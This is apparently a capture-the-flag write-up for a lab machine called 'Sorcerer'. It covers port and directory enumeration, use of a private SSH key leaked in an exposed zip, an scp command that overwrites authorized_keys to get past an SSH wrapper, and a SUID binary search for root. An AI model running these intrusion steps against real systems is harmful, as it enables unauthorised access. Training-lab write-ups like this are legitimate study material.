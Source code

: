 # Sorcerer

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.168.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:52 +08
Nmap scan report for 192.168.168.100
Host is up (0.17s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
7742/tcp  open  msss
33603/tcp open  unknown
41637/tcp open  unknown
42193/tcp open  unknown
59253/tcp open  unknown
```

Did a detailed scan in case:

```
$ sudo nmap -p 80,111,2049,7742,33603,41637 -sC -sV --min-rate 5000 -Pn 192.168.168.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:55 +08
Nmap scan report for 192.168.168.100
Host is up (0.21s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  3           2049/udp   nfs
|   100003  3,4         2049/tcp   nfs
|   100005  1,2,3      41637/tcp   mountd
|   100005  1,2,3      52180/udp   mountd
|   100021  1,3,4      42193/tcp   nlockmgr
|   100021  1,3,4      58389/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/udp   nfs_acl
2049/tcp  open  nfs_acl 3 (RPC #100227)
7742/tcp  open  http    nginx
|_http-title: SORCERER
33603/tcp open  mountd  1-3 (RPC #100005)
41637/tcp open  mountd  1-3 (RPC #100005)
```

NFS and Port 7742 look the most promising.

### NFS Enumeration --> Dead End

I first enumerated NFS to see if there was anything to mount:

```
$ showmount -e 192.168.168.100 
Export list for 192.168.168.100:
```

There was nothing, so let's move on.

### Web Enumeration --> Zipfiles

Port 7742 just shows us a login page:

<figure><img src="../../../.gitbook/assets/image (3) (13).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` directory scan while I tested some weak default passwords. I found a few directories present:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.168.100:7742/ -t 100  
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.168.100:7742/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/10 13:58:45 Starting gobuster in directory enumeration mode
===============================================================
/default              (Status: 301) [Size: 178] [--> http://192.168.168.100:7742/default/]
/zipfiles             (Status: 301) [Size: 178] [--> http://192.168.168.100:7742/zipfiles/]
```

The `/zipfiles` directory looks the most interesting. Within it, there were zip files named after the users on the machine:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

`max.zip` was the largest and hence the only one I downloaded. When unzipped, it contained all the files like his SSH key:

```
$ unzip max.zip       
Archive:  max.zip
   creating: home/max/
  inflating: home/max/.bash_logout   
  inflating: home/max/.profile       
   creating: home/max/.ssh/
  inflating: home/max/.ssh/id_rsa.pub  
  inflating: home/max/.ssh/authorized_keys  
  inflating: home/max/.ssh/id_rsa    
  inflating: home/max/tomcat-users.xml.bak  
  inflating: home/max/.bashrc        
  inflating: home/max/scp_wrapper.sh
```

However, attempts to SSH in as `max` fail.

```
$ ssh -i home/max/.ssh/id_rsa max@192.168.168.100
PTY allocation request failed on channel 0
ACCESS DENIED
```

It seems that something is blocking us. When we read the `scp_wrapper.sh` file, we see that `ssh` is being blocked, but not `scp`:

```bash
$ cat scp_wrapper.sh 
#!/bin/bash
case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac
```

Since `scp` is allowed, we can transfer our public key into the `authorized_keys` folder:

```
$ scp -O -i id_rsa ~/.ssh/id_rsa.pub max@192.168.168.100:/home/max/.ssh/authorized_keys
id_rsa.pub                                                 100%  391     2.2KB/s   00:00
```

Afterwards. we can just `ssh` in:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> Root Shell

I did a search for SUID binaries on the machine:

```
$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/mount.nfs
/usr/sbin/start-stop-daemon
<TRUNCATED>
```

`start-stop-daemon` is an SUID binary, and it can spawn a `root` shell for us.&#x20;

![](<../../../.gitbook/assets/image (36) (2).png>)
